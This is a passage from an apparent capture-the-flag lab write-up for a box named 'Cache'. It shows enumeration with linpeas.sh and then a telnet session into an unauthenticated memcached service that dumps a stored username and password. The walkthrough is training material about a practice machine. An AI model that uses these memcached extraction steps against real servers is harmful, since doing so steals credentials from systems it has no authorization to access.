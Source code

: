## Root

From here, we will do more enumeration in order to escalate to root. To do this, we will use [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) which gives us a ton of information. Some information it gives are processes listening.

```
ash@cache:/dev/shm$ ./linpeas.sh
...
Active Internet connections (servers and established)                                                                                                 
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0    459 10.10.10.188:48748      10.10.14.130:1234       ESTABLISHED -                   
tcp        0      1 10.10.10.188:37182      8.8.4.4:53              SYN_SENT    -                   
tcp        0      0 127.0.0.1:37640         127.0.0.1:11211         TIME_WAIT   -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 10.10.10.188:80         10.10.14.130:59584      ESTABLISHED -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 127.0.0.1:45974         127.0.0.53:53           ESTABLISHED -                   
```

Along with DNS running which is expected because of the virtual host setup, we see that MySQL is listening on port 3306 and another service is listening on port 11211. Looking up that strange port, we see one thing that uses it is `memcached`. This is a huge hint since the box's name is "cache". Using this [blogpost](https://www.hackingarticles.in/penetration-testing-on-memcached-server/) we can see how to extract some information from `memcached`.

```
ash@cache:~$ telnet localhost 11211
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END
get user
VALUE user 0 5
luffy
END
get passwd
VALUE passwd 0 9
0n3_p1ec3
```